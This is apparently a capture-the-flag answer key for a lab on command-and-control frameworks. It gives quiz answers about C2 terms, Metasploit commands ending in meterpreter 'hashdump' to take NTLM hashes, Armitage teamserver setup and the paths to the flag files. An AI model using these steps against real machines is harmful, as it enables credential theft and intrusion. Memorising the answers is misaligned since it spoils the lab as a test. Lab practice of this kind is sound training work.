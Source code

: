**Task 2**

**What is the term for the software on a compromised computer that communicates back to a command and control (C2) server?**

```Agent```


**What is the beaconing option that introduces a random delay value to the sleep timer?**

```Jitter```


**What is the term for the first portion of a Staged payload?**

```Dropper```

**What is the name of the communication method that can potentially allow access to a restricted network segment that communicates via TCP ports 139 and 445?**

```SMB Beacon```

**Task 5**

**Which listener should you choose if you have a device that cannot easily access the internet?**
```DNS```

**Which listener should you choose if you're accessing a restricted network segment?**

```SMB```


**Which listener should you choose if you are dealing with a Firewall that does protocol inspection?**

```HTTPS```

**Task 6**

**What is the Administrator's NTLM hash?**
```
msfconsole -q
set LHOST <network-interface>
set RHOST <victim_ip>
run


meterpreter> hashdump

```
**What flag can be found after gaining Administrative access to the PC?**
```
Follow the steps on Task 4

git clone https://gitlab.com/kalilinux/packages/armitage.git && cd armitage
bash package
systemctl start postgresql && systemctl status postgresql.sh
export MSF_DATABASE_CONFIG=/root/.msf4/database.yml
cd /opt/armitage/release/unix && ./teamserver YourIP P@ssw0rd123
cd /opt/armitage/release/unix && ./armitage (in other terminal tab)
```

![Insert the correct info according to your Host IP Address](image.png)


![alt text](image-1.png)


``` Then, follow the steps on Task 4 adapting to your needs ```

![alt text](image-2.png)

![Your Machine IP Address](image-3.png)

![alt text](image-4.png)

![alt text](image-5.png)

![alt text](image-6.png)

![alt text](image-7.png)

``` After you gain access, the flag is at C:\Users\Administrator\Desktop\root.txt ```

**What flag can be found after gaining access to Ted's user account?**

```After you gain access, the flag is at C:\Users\Ted\Desktop\user.txt```

**What is Ted's NTLM Hash?**

```

msfconsole -q
set LHOST <network-interface>
set RHOST <victim_ip>
run


meterpreter> hashdump
```

**Task 7**

**What setting name that allows you to modify the User Agent field in a Meterpreter payload?**

```HttpUserAgent```

**What setting name that allows you to modify the Host header in a Meterpreter payload?**

```HttpHostHeader```




